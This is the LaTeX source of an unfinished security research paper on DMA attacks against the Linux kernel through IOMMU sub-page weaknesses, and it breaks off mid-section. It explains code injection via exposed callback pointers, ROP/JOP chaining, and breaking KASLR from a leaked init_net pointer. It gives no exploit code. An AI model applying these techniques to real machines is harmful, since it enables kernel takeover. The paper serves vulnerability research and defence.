\documentclass[sigconf]{acmart}
\settopmatter{printacmref=false}
\setcopyright{none}
\renewcommand\footnotetextcopyrightpermission[1]{}
\pagestyle{plain}

\acmConference[CCS '20]{CCS '20: The ACM Conference on Computer and Communications Security (CCS)}{November 09--13, 2020}{Orlando, USA}

% to be able to draw some self-contained figs
\usepackage{tikz}
\usepackage{amsmath}
\usepackage{fancyvrb}
\usepackage{listings}
\usepackage{comment}
\usepackage{enumitem}
%striketrough
\usepackage[normalem]{ulem}
\usepackage{soul}
\usepackage{xspace}
\usepackage{xcolor}

% inlined bib file
\usepackage{filecontents}

% break long urls
\usepackage{url}
\makeatletter
\g@addto@macro{\UrlBreaks}{\UrlOrds}
\makeatother


\providecommand{\data}{\textit{data}\xspace}
\providecommand{\shinfo}{\texttt{skb\_shared\_info}\xspace}
\providecommand{\skb}{\texttt{sk\_buff}\xspace}
\providecommand{\page}{\texttt{struct page}\xspace}
\providecommand{\uarg}{\texttt{ubuf\_info}\xspace}
\providecommand{\kva}{KVA\xspace}
\providecommand{\iova}{IOVA\xspace}
\providecommand{\mabaf}{malicious buffer\xspace}
\providecommand{\spb}{SPB\-2\xspace}
\providecommand{\oportunity}{\textit{Opportunity}\xspace}
\providecommand{\means}{\textit{Means}\xspace}
\providecommand{\motivation}{\textit{Motive}\xspace}
\providecommand{\simple}{\textit{single-step}\xspace}
\providecommand{\Simple}{\textit{Single-step}\xspace}
\providecommand{\compound}{\textit{compound}\xspace}
\providecommand{\Compound}{\textit{Compound}\xspace}
\providecommand{\subpage}{sub-page\xspace}
\providecommand{\tool}{mmo-parser\xspace}
\newcommand{\SV}[1]{{\textcolor{red}{[Shay:#1}]}} 

%-------------------------------------------------------------------------------
\begin{document}
%-------------------------------------------------------------------------------

%don't want date printed
%\date{}

% make title bold and 14 pt font (Latex default is non-bold, 16 pt)
\title{\Large \bf Motive, Means \& Opportunity: The Anatomy of DMA Attacks}

% % USENIX Security has double blind submissions
% \begin{comment}
% \author{
% {\rm Markuze Alex}\\
% Technion, VMware Research
% \and
% {\rm Shay Vargaftik}\\
% VMware Research
% \and
% {\rm Gil Kupfer}\\
% Technion
% % copy the following lines to add more authors
% \and
% {\rm Nadav Amit}\\
% VMware Research
% \and{\rm Dan Tsafrir}\\
% Technion, VMware Research
% } % end author
% \end{comment}


%-------------------------------------------------------------------------------
\begin{abstract}
%-------------------------------------------------------------------------------
%\textcolor{red}{Before: chaos Now Oder == MMO, taxonomy of DMA vulnerabilities Result \compound attacks. + tool. We expose  a deep-rooted issue in OS design rather than ad-hoc buggies... The language:\simple vs. \compound, MMO, \subpage types.}

Direct Memory Access (DMA) makes the system vulnerable to DMA attacks, in which I/O devices access memory regions not intended for their use. Hardware IOMMU protection is unable to entirely prevent DMA attacks, because it restricts DMA at page-level granularity, whereas DMA buffers can reside on the same page as other data. Conventional wisdom is that DMA attacks are made possible by buggy device drivers or poor (but isolated) driver design choices.

This paper disproves the above belief, showing that it is often the kernel design that enables a DMA attack. To this end, we introduce Motive, Means $\&$ Opportunity (MMO), a trifecta of attributes that characterize any DMA vulnerability. We then further develop an MMO-inspired static code analysis tool identifying device drivers susceptible to DMA attacks.

Utilizing the MMO schema, we find that previously reported DMA attacks fall into a category we term \simple{} attacks, cases where the trifecta of vulnerability attributes is present in a single memory page. We then continue to present a new type of more complex DMA attacks we term \compound{} attacks. Namely, situations where \simple{} attacks are inviable since the trifecta of vulnerability attributes is initially incomplete. Nevertheless, as we show, they can be produced by carefully exploiting standard OS behavior. We focus on code injection attacks targeting the Linux kernel and, demonstrate both previously unreported \simple{} attacks and new, more complex, \compound{} attacks.



%\textcolor{red}{TODO: 
%\begin{enumerate}
%    \item New Section 5. on tool design + figure.
%    \begin{enumerate}
%        \item Tool stats - Table.
%        \item Tool limitations: False positive/negative stats + example.
%        \item FreeBSD?.
%        \item Add type C vulnerability finder - cscope.
%    \end{enumerate}
%    \item Tool output on spb2.
%    \item mention tool github.
%    \item \st{change layout to css.}\\ \url{https://www.sigsac.org/ccs/CCS2020/call-for-papers.html}
%\end{enumerate}
%}


% \begin{comment}
% \smallskip
% TODO:

% \begin{enumerate}
%     \item \st{Introduce Compound DMA attacks vs. straightforward -- add in intro and contribution list.}
%     \item \st{Connect type (c) opportunity gaining vulnerability is not connected to paper...
%     add examples.}
%     \item \st{Conclusions: add communication with Linux}
%     \item \st{Go over ndss references and copy everything relevant to our related work.}
%     \item Mention smep/smap in either sec. 6 or related...
%     \item \st{Check and then update all access dates in ferences links.}
%     \item \st{Check: Section -> Sec. , Figure-> Fig. ... ect.}
%     \item \st{check smallskip consistency.}
%     \item \st{change bnx2 to tg3 (NetXtreme BCM5720)- (napi\_alloc\_frag - type (c))}
% \end{enumerate}
% \end{comment}

\end{abstract}

\maketitle

%-------------------------------------------------------------------------------
%-------------------------------------------------------------------------------

\section{Introduction}

Direct Memory Access (DMA) is a technology that allows input-output (I/O) devices to access memory without CPU involvement, thereby improving system performance.
DMA-capable devices include internal devices, such as GPUs, Network Interface Cards (NICs), storage devices (e.g., NVMe), and other peripheral devices, including external devices such as FireWire and Thunderbolt.\footnote{Currently, the Linux kernel (version 5.0) has as many as 700 such device drivers, of which one third are network device drivers.} However, in its basic form, DMA makes the system vulnerable to DMA attacks. These are cases where malicious DMA-capable devices, such as  compromised firmware \cite{Gal14,Ben17a}, access sensitive memory regions not intended for their use. 


Numerous DMA exploits are known \cite{Dor04,BDK10,thunder}, ranging from stealing and manipulating sensitive data to taking over the victim machine. Widespread attacks include: opening a locked computer \cite{MM, Fin14}, executing arbitrary code on the victim machine \cite{Fri16, Woj08, AD10,thunder}, stealing sensitive data items such as passwords \cite{SB12, LKV13, Cim16, BR12}, and extracting a full memory dump of a victim machine \cite{MM, Vol, Fin14, GA10}. These threats are supposed to be mitigated by the Input-Output Memory Management Unit (IOMMU), which adds a layer of virtual memory to devices. The IOMMU brokers all I/O requests, translating their target I/O virtual addresses (IOVA) to physical addresses. In the process, the IOMMU provides address space isolation, allowing a device to access only permitted pages and rendering all other memory inaccessible.

Unlike processes that operate at page granularity, I/O buffers can be significantly smaller than a page. I/O buffers and other kernel buffers can co-reside on the same physical pages, inadvertently exposing these kernel buffers to the device. For this reason, known as the \subpage{} vulnerability~\cite{MMT16,thunder}, the IOMMU cannot fully protect the kernel from unprivileged access. Consequently, \subpage{} vulnerabilities were the basis for several recent DMA exploits~\cite{kupfer2018iommu,thunder,Ben17a,Ben17b}.
%\st{Unfortunately, there is no systematic study of \subpage{} vulnerabilities and how to exploit them} 
%\adam{defend, no? Ultimately, EuroSys people want to prevent the vulns}.\SV{Rephrased below. Since there are paper on defences, such a satement may weaken our cliam?}
Nevertheless, these previously reported vulnerabilities have an ad-hoc nature rather than a structured top-down approach. 

% \textcolor{olive}{Marketos et al.~\cite{thunder} have found that many OSs have basic DMA vulnerabilities that may lead to dire results. For the Linux kernel, however, which utilizes best IOMMU practices, there are no known DMA attacks, though some \subpage{} vulnerabilities were shown~\cite{thunder,MMT16,MSMT18}.
% %
% This paper is focused on the Linux kernel and disproves the above belief, showing that it is the kernel design that often enables a DMA attack (see Sec. \ref{sec:other_os} for a discussion on other OSes).}

Accordingly, we conducted a systematic study of \subpage{} vulnerabilities. To provide  insight into the structure of DMA vulnerabilities, we first break down \subpage{} vulnerabilities into four types (Section~\ref{sec:subpage}):
\begin{itemize}
    \item Exposed driver metadata
    \item Exposed OS metadata 
    \item Mapped by multiple \iova due to multiple co-located buffers
    %\adam{the previous two are somehow intuitively understandable, but the latter two aren't. It would be good to add a short explanation of why each of the bullets is a vuln. Also see comment in Section 4: I think this 3rd bullet should be removed}\SV{This is type C Vuln it is important for many attacks, its caused due to two buffers co-residing on a page, we need to discuss this.}
    \item Randomly co-located
\end{itemize}

%\st{Then, to exploit these vulnerabilities, we present a schema for identifying viable attack vectors by malicious DMA capable devices.}
%\adam{this sentence isn't clear, can you clarify what an ``attack vector'' means, i.e., what is needed in addition to the 4-type classification? Usually, having identified a vuln, an attack simply exploits it. Here, there is a two-level structure that isn't clear at this point. I guess it becomes clearer in the next paragraph, but at this point it isn't. Perhaps this sentence should be moved to the next paragraph and merged with it.}\SV{See new paragraph below. Better?}

Next, we identify the ingredients that make it possible for a malicious device to exploit these four types of \subpage{} vulnerabilities and execute a viable DMA attack.
Focusing on \emph{code injection} attacks, we introduce (Section~\ref{sec:mmo}) a set of three vulnerability attributes that can be used to execute such attacks:

\begin{itemize}
    \item A kernel virtual address (KVA) of a buffer filled with malicious executable code~(i.e., \mabaf).
    \item Write access to a function callback pointer, exposed in a data structure via one of the four \subpage vulnerability types. 
    %\adam{suggest mentioning that this bullet is what one of the 4 types gives you} 
    \item Existence of a time window such that the device can modify the callback pointer during that time window; the CPU will subsequently jump to the pointed code before the pointer gets overwritten, if it is ever overwritten. 
\end{itemize} 

With the characterization of the different \subpage{} vulnerabilities and the vulnerability attributes, we were able to build analysis tools that can detect potentially hazardous \subpage{} vulnerabilities:

\begin{itemize}
    \item We built a static code analysis tool that performs a Sub-Page Analysis for DMA Exposure (\tool). \tool scans for potentially exposed callback pointers on DMA-mapped pages. We used \tool on Linux kernel 5.0 and found that as many as 72\% of device drivers are potentially vulnerable to code injection attacks (Section~\ref{sec:static-analysis}). 

    \item Some \subpage{} vulnerabilities can only manifest dynamically at run-time, potentially exposing callback pointers and/or kernel addresses. Static analysis may not reveal  vulnerabilities where a memory buffer is exposed randomly. For example, a random exposure can occur when a memory buffer is co-located on the same page as a mapped I/O buffer. Accordingly, we developed a run-time analysis tool that reports such vulnerabilities and demonstrate its use. Termed DMA-Kernel-Address-SANitizer (\dkasan), this tool reports all cases where a kernel buffer is exposed, inadvertently or otherwise~(Section~\ref{sec:dma-kasan}).
\end{itemize}

We used our tools to find and demonstrate attacks on the Linux kernel. We focus on \compound attacks, since a detected \subpage vulnerability alone is sometimes insufficient to execute a code injection attack. We show cases where at least one of the three vulnerability attributes is initially missing, but can be obtained via compound steps. 

Previous work has been done to explore \simple{} attacks  in which the three vulnerability attributes are trivially provided. We examine the situation in which a mapped I/O buffer co-resides on a mapped page. Due to \subpage{} vulnerability, this situation also exposes a callback pointer and a kernel virtual address, and the timing is such that the CPU will not overwrite the modifications.

The analysis of \simple{} attacks that can typically be blocked with localized fixes, may lead to a dangerous misconception. In particular, one may assume that buggy device drivers or poor but isolated design choices are to blame for DMA vulnerabilities~\cite{malka2015efficient,malka2015riommu}.
By introducing \compound attacks, we show that it is often the kernel itself that supplements the missing pieces. We demonstrate that this is a deep-rooted issue rather than a collection of disjoint incidents.
We identify multiple kernel APIs and data structure designs that help a malicious device acquire the vulnerability attributes.

%\adam{still poor flow, you're mixing technical description of the attacks (some of which are missing) with the \sout{hype} message. I suggest the following flow from the previous sentence: We focus on \emph{compound} attack, which <DEFINE THEM (it's not clear what ``trifecta is incomplete'' means). Next paragraph: We observe that unlike compound attacks, previous work has explored \emph{single-step} attacks... <REPEAT THE CURRENT NEXT PARAGRAPH, EXCEPT FOR THE FIXES PART>. Next paragraph: Single-step attacks can typically be block with localized fixes (did you mean fixing the affected device driver? suggest saying so). In contrast, compound attacks are not enabled by buggy device drivers or poor but isolated design choices. <REPEAT THE END OF THE 2ND PARAGRAPH>}

To summarize, we make the following contributions:
\begin{itemize}
    \item Provide a categorization of the four \subpage{} vulnerability types.
    \item Introduce a set of three vulnerability attributes that are sufficient to execute code injection attacks.
    \item Develop a static code analysis tool (\tool) to flag code paths that may expose callback pointers. 
    \item Develop a run-time tool (\dkasan) to identify \subpage{} vulnerabilities at run-time, including vulnerabilities caused by random exposure.
    \item Demonstrate novel DMA attacks on the Linux kernel, termed \compound{} attacks.
    \item Make our code publicly available \cite{DKASAN,SPADE}.
\end{itemize}

% The rest of the paper is organized as follows:
% in Sec. \ref{sec:background} we provide the necessary technical background. 
% In Sec. \ref{sec:dma-risks} we introduce new theoretical basis to reason about DMA vulnerabilities.
% Next, inspired by the new theoretical basis, in Sec. \ref{sec:static-analysis} and \ref{sec:dma-kasan} we describe and evaluate the tools we built to discover DMA vulnerabilities. 
% In Sec. \ref{sec:linux_net} we discuss novel \compound attacks where human expertise is needed to complete the necessary attack ingredients.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%% force figure to page 3... belongs to the next section.
\begin{figure*}[t]

        \begin{lstlisting}[
        basicstyle = \small,
        %basicstyle=\ttfamily,
        columns = fixed,
        tabsize=8,
        %frame = l,
        xleftmargin=.1\textwidth,
        language = C
        ]
Start addr       |   Offset   |     End addr     |  Size   | VM area description
==================================================================================
...
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | page_offset_base
...
ffffe90000000000 |  -23    TB | ffffe9ffffffffff |    1 TB | ... unused hole
ffffea0000000000 |  -22    TB | ffffeaffffffffff |    1 TB |  vmemmap_base
...
ffffffff00000000 |   -4    GB | ffffffff7fffffff |    2 GB | ... unused hole
ffffffff80000000 |   -2    GB | ffffffff9fffffff |  512 MB | kernel text mapping
                \end{lstlisting}
        \caption{ Linux Kernel memory layout.}
        \label{fig:mem_layot}

\end{figure*}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Background}\label{sec:background}

In this section, we provide the necessary background needed to discuss DMA related attacks. First, we describe classic DMA attacks and the IOMMU protection against them. Then, we discuss well-established protection practices against privilege escalation (i.e., code injection) attacks and methods of their circumvention.

\subsection{DMA attacks}

DMA allows I/O devices, direct access to memory \cite{oC54} without CPU involvement. While DMA is essential for fast I/O, it also provides ample opportunity for unmonitored and malicious activity by DMA capable devices, i.e., DMA attacks. 

An attacker can access sensitive data and/or overwrite the OS code and data structures and even gain full control of the victim system. DMA attacks can be carried out using an external or internal DMA-capable device. 

Accessible expansion ports, e.g., FireWire or Thunderbolt, allow external devices to initiate DMA transactions merely by connecting a programmable accessory \cite{Dor04, Vol, MM, thunder}. 
Exploiting internal devices is more challenging, but enables persistent and stealthy attacks. Clearly, an internal device is simply less conspicuous than an external peripheral connected via a Thunderbolt cable.

Multiple options to gain control of an internal device are available.
A resourceful attacker can exploit firmware bugs \cite{SB12}. These can be well-known exploits, as end-users are often slow in deploying firmware updates \cite{DPVL10}, and even newly discovered zero-day vulnerabilities \cite{Ben17b}. Alternatively, certain attackers may be able to replace the device firmware altogether with a malicious one \cite{ZKB13, NL14}. It is also possible to manufacture devices that appear to be legitimate but are, in fact, malicious at the circuitry level \cite{YHD16}.

Once an attacker gained control over a DMA device connected to a victim machine, various attacks are possible, ranging from keyloggers \cite{LKV13, SB12} to full control over commodity OS and hypervisor, including Windows \cite{AD10,thunder}, Linux, OSX \cite{Fri16, thunder}, Android \cite{Ben17b}, and Xen \cite{Woj08}.

Several software tools for perpetrating DMA attacks exist, some are open source. Tools such as Volatility \cite{Vol}, Inception \cite{MM}, GoldFish \cite{GA10} and FinFireWire \cite{Fin14} can extract target machine memory and unlock victim machines by patching the OS code. These tools are reportedly used by government agencies, such as NSA.

\subsection{IOMMU}

With the lack of software protection against DMA attacks, the common practice is to restrict DMA accesses through hardware protection. The most common mechanism for this purpose is the I/O memory management unit (IOMMU). The IOMMU adds a level of indirection for DMA addresses \cite{WRC08,YZ15,SB12,MTF12}, effectively providing peripheral devices with virtual addresses termed~\iova{} (I/O virtual address). This way, the device can access only these pages that the OS has explicitly allowed. Inspired by the x86 MMU, the IOMMU uses a page table for address translation and an IO/TLB for caching recent accesses.  The page tables are managed by the OS and as with the MMU, have a page granularity. The common page size is 4\,KB, though other larger page sizes, up to GBs, also exist.

The page table also holds page access rights for each \iova. An access right can be either READ, WRITE, or BIDIRECTIONAL. Note that WRITE access does not grant a DMA device READ access, whereas BIDIRECTIONAL access is needed to both read and write from/to the page. It is also important to note that a single physical page can be mapped by multiple \iova{}s, each with a possibly different access right.

IOMMUs were not designed primarily with regard to providing security \cite{DWT79}. IOMMUs were used to allow devices that did not support vectored I/O, to access contiguous virtual memory, which may map non-contiguous physical memory \cite{Chu96, WMM97}. IOMMUs also enabled legacy devices that only supported limited address width (32-bit), to access high memory (64 bit). More recently, IOMMUs were used to assign I/O devices directly to virtual machines while maintaining their isolation properties \cite{Int16b, AMD16}. 
%Throughout this period, OS developers did not appear to consider protection against malicious devices important. To date, Windows 10 is the first Windows version that uses IOMMU for protection \cite{Mic17}.\adam{aren't these two sentences detracting from the paper? The premise is that IOMMUs are used for protection, and they contradict this premise.}
\section{OS Defences}
In this section we discuss the common mechanisms used to mitigate code injection attacks. Subverting these countermeasures is essential to the success of any DMA attack.

\subsection{NX-BIT}\label{sec:nx-bit}
When exploiting a sub-page vulnerability (section \ref{sec:subpage}) a peripheral device has access with read/write permissions to memory buffers it shouldn't. Gaining write access to a function pointer can allow the attacker to inject malicious code. DMA capable devices, usually get access to pages with data, rather than code. Modern OSs make use of hardware support, namely the No-eXecute bit, to prevent running code from data pages. The bit for each page is defined in MMU’s page tables. Whenever the CPU tries to fetch code from memory, this bit is checked. If it is set, instead of running the code, the CPU will raise an exception to the OS, notifying it that someone is trying to break into the system. This method is known under the names NX\-bit, W xor X (Write xor eXecute) and DEP and it is intended to prevent code injection attacks.\newline
Return Oriented Programming (ROP) Return Oriented Programming (ROP) is a common method used by malware to bypass DEP defenses \cite{RBSS12}. ROP takes advantage of the fact that the CPU stack pointer may point to any data page. To set up an attack from a data page, the attacker builds a stack filled with required data and pointers to special locations in the code section (aka ROP gadgets) in it. Each gadget is a short piece of code—usually one or two commands, and a return command. When the CPU executes a return command, the next address to fetch code from is taken from the stack. In the stack the next address points to another gadget and so on. By carefully selecting these gadgets, an attacker can execute any payload. For a ROP attack to succeed, an attacker needs the stack pointer to point at the poisoned stack. We turn to Jump Oriented Programming ;(JOP) is a similar technique that uses jumps instead of returns and, therefore, does not need the stack\cite{BJFL11}.We use JOP gadgets that direct the stack pointer to the desired page, to jump-start the ROP attack. 

%#define __PAGE_OFFSET           page_offset_base
%#define PAGE_OFFSET ((unsigned long )__PAGE_OFFSET)
%#define VMEMMAP_START          vmemmap_base
%#define vmemmap ((struct page *)VMEMMAP_START)

\begin{figure*}[t]
                \begin{lstlisting}[
        %basicstyle = \scriptsize,
        columns = flexible,
        tabsize=8,
        %frame = l,
        language = C
        ]
        
#define __va(x) ((void *)((unsigned long)(x) - PAGE_OFFSET))
#define __pa(x) ((unsigned long)(x) + PAGE_OFFSET)

#define virt_to_pfn(kaddr)      (__pa(kaddr) >> PAGE_SHIFT)
#define pfn_to_virt(pfn)        __va((pfn) << PAGE_SHIFT)

        /* memmap is virtually contiguous.  */
#define __pfn_to_page(pfn)      (vmemmap + (pfn))  
#define __page_to_pfn(page)     (unsigned long)((page) - vmemmap)
                \end{lstlisting}
        \caption{ Linux Macros for transition between KVA, PFN and \page.
                }
        \label{fig:mem_model}
\end{figure*}
\subsection{KASLR}\label{sec:kaslr}
Address Space Layout Randomization (ASLR) is a common mechanism for mitigating code-execution attacks in the context of user-level processes. To inject code into a process, the attacker must know the memory layout. For example, the address of the code section is required for finding ROP gadgets \ref{sec:nx-bit}. Systems that support ASLR randomize the memory layout for each process on every execution. In this way, regular attacks, which are built for a specific layout, fail. Similarly, KASLR \cite{kalsr} randomizes the memory layout of the kernel. The Linux kernel has a predetermined virtual memory layout\footnote{\url{https://elixir.bootlin.com/linux/latest/source/Documentation/x86/x86_64/mm.rst}} KASLR treats the entire kernel text mapping as a single region, randomizing only its base address. Linux Kernel text addresses are always in the range [0xffffffff80000000,0xffffffffa0000000) and, therefore are very easy to detect. KASLR kernel text is aligned to 2MB boarders\footnote{This is the result of page table restrictions and unlikely to change}, which means that the lowest 21 bits remain unchanged with KASLR. Hence, knowing even one address of a known element is enough to deduce the base address and break KASLR. Once the base address is known, the attacker can use it to create a ROP stack. Malicious devices can scan pages mapped for reading, looking for kernel pointers colocated with their buffers. Once such a pointer is identified, all that remains is to reduce the offset of the symbol in the binary from the pointer to get the base address. We found that there is a symbol visible to both FireWire and NICs in all Linux versions we have tested, making it suitable for breaking kASLR. Starting from version 2.6.24, Linux supports network namespaces for isolating different instances of network use. Every network object (and sockets, in particular) has a pointer to its namespace object. Moreover, at least one namespace is always defined by the global object \texttt{init\_net}. Since TX packets have varying sizes, NICs can see all kinds of dynamically allocated objects, including sockets. In addition, socket objects are about the same size as sbp2 management orb, making them allocated from the same pages. Hence, both of them can see socket objects and, thus also the address of \texttt{init\_net}. Using this pointer, the attacker can deduce the base address and complete the ROP attack. \newline Starting from Linux 4.8, the direct mapping base, and virtual memory map are also randomized, each regions base pointer is randomized at a 1GB alignment; which means that the lover 30 bits are unmodified and can leak both the PFN numbers and the randomized offset. This alignment is also due to page table considerations (page upper table(PUD) has a 30bit shift). We will need to know both offsets for the attacks in sections \ref{sec:linux_net}. Once, the random offsets \textit{PAGE\_OFFSET} and \textit{vmemmap} for direct mapping base and virtual memory map, are known; we can transition between a \kva its PFN and its \page address. The translation macros are shown in Fig \ref{fig:mem_model}.  

\begin{comment}
\textcolor{olive}{
\subsection{breaking kaslr with leaked pointers}
Please make prev section coherent...
\begin{itemize}
    \item PUD alignment
    \item page\_offset\_base
    \item vmemmap\_base
    \item kernel text offset
\end{itemize}}
\end{comment}

\section{Attack Mechanics}
Given that:
\begin{enumerate}
    \item IOMMU hardware is correctly implemented 
    \item IOMMU is correctly initialized on time
\end{enumerate}
One might assume that the systems are safe from DMA attacks. We contend that this is not the case. The \textit{least-privilege principle} requires that an entity such as a software module or a physical device must always have only the minimum necessary access to operate normally. In this chapter, we describe the risks caused by software when this principle is violated.
\begin{figure}[t]
    \centering
    
\includegraphics[width=1\columnwidth]{figs/colocation.png}
    \caption{Sub-page granularity DMA vulnerabilities when the I/O buffer resides in
a page that also holds other data: (a) I/O buffer metadata, (b) memory allocator’s
metadata such as free-list pointers and (c) randomly colocated sensitive buffers.}
    \label{fig:colocation}
\end{figure}
\subsection{Sub-Page}\label{sec:subpage}
Currently, OSs allocate I/O buffer memory using the same mechanisms they use for any memory allocation. These mechanisms, however, are oblivious to the role of the allocated memory. Consequently, I/O buffers may reside in the same page with other and potentially sensitive data. Since IOMMU protection is limited to page granularity, I/O devices that are allowed to access an I/O buffer gain access to this data as well. This behavior might compromise the system security. We classified the different types of potentially co-located data into three categories (as illustrated in Figure ~\ref{fig:colocation}: In case (a), the I/O buffer is part of a bigger data structure that also contains metadata used by the device driver. In the extreme case, this metadata might include function pointers, which enable relatively simple and robust attacks. Other fields in such data structures might be dangerous as well. In case (b), the memory allocator saves metadata, such as free-lists, with the I/O buffers, in the same page \cite{Cor07}. Manipulating these data structures may compromise the system completely \cite{ak09}. Finally, in (c), the I/O buffer and another dynamically allocated memory may reside in the same page. This common situation can easily cause data leakage, but may also be used for more sophisticated attacks. 
%We used randomly colocated pointers to break kASLR, as we discuss in Chapter 5. Why do OSs ignore the disparity between I/O buffer allocation alignment and protection granularity? One possible explanation is the benefits of dense memory allocations: lower internal memory fragmentation, which results in higher memory utilization, and lower translation lookaside buffer (TLB) pressure, which reduces the number of TLB misses. We suspect, however, that the main reason for the disparity is actually more prosaic. As IOMMUs were introduced to commodity servers relatively recently, OS developers have been reluctant to overhaul existing device drivers and change the way they allocate and manage their memory. Instead, IOMMU mapping operations were abstracted from device drivers, and implemented on top of existing DMA APIs [MHJ, The]. As a result, the memory allocation of I/O buffers has not been modified and adapted to take into consideration the IOMMU protection granularity.
\subsection{Deferred Invalidation vulnerability} 
\begin{figure*}[t]
    \centering
